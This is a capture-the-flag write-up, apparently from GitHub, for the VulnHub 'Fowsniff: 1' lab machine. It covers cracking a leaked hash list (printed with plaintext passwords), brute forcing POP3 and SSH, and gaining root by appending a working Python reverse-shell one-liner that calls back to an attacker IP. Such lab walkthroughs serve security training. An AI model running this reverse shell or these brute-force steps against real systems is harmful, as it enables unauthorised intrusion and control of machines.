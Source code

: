 # FOWSNIFF: 1

## 1.GET VM IP:

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/e385b77d-00dc-4c7e-94e2-61b73ecf1c5b)

The ip address is `192.168.56.111`, let's enumerate it.

## 2.Enumeration

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/f80e208c-de6f-4236-afdb-bb479c08a047)

On port 80 there is nothing to check but the information it gives us :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/78aa10fd-fd01-41c4-9e37-51b77f080c77)

so i tried to search for `fowsniff corp` on google and i found a [twitter](https://twitter.com/fowsniffcorp?lang=en) page and a [github](https://raw.githubusercontent.com/berzerk0/Fowsniff/main/fowsniff.txt) page

that shows dump of passwords hashes, just use an online service or john to crack the hashes, after cracking them you will reach to this list :

```text
mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4=mailcall
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56=bilbo101
tegel@fowsniff:1dc352435fecca338acfd4be10984009=apples01
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb=skyler22
seina@fowsniff:90dc16d47114aa13671c697fd506cf26=scoobydoo2
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b=carp4ever
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11=orlando12
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e=07011972
```

now we can try to login to pop3 service using one of these credentials, just separate users and passwords in two file and brute force the pop3 :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/c2c3fcdc-a1eb-475a-be04-e8fae9fef567)

here i found a valid credential so let's login to mail server :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/21e99fb9-e927-40ec-8c46-c82fc2802865)

and let's check the content of the messages :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/62bb996a-b70d-44f2-89ba-c3b2a6708549)

in this message we find a possible ssh password, now we should test it again all users.

## 3.Gaining Shell

Again we try to brute force the ssh service with the newly found password and the list of users we created before :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/cfc5caf8-dea8-4ae2-a680-5ca0c6f34760)

yes, we found a credential for ssh login :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/02565803-a334-4347-9fde-dcea5db429d1)

## 4.Privilege Escalation

We are part of group `users` so it worth checking if this group has right to access to any files on the system :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/ae612d7f-df39-4999-8070-c430d92b054f)

it seems that we can access the file `cube.sh` so let's check the content of it :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/461acf2e-1510-4591-8dbe-6867bde41bb7)

it is the same text we get when we login to the server, so it like the banner of the ssh login.

so it worth checking `update-motd.d` to see if this script is present here :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/4ed8df5a-934f-47b9-b676-db56069801f2)

yes, the file `00-header` is using this script :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/59e9eaeb-d7ec-4f2b-825f-47a880b71e41)

i just add a python3 reverse shell to `cube.sh` to get another shell as user root :

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.102",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

and login again to server with user `baksteen`, at the same time start a listener on your kali machine :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/ab57b263-1fc2-473e-bb20-3da24dde0827)

this is how you can get root on this machine :)
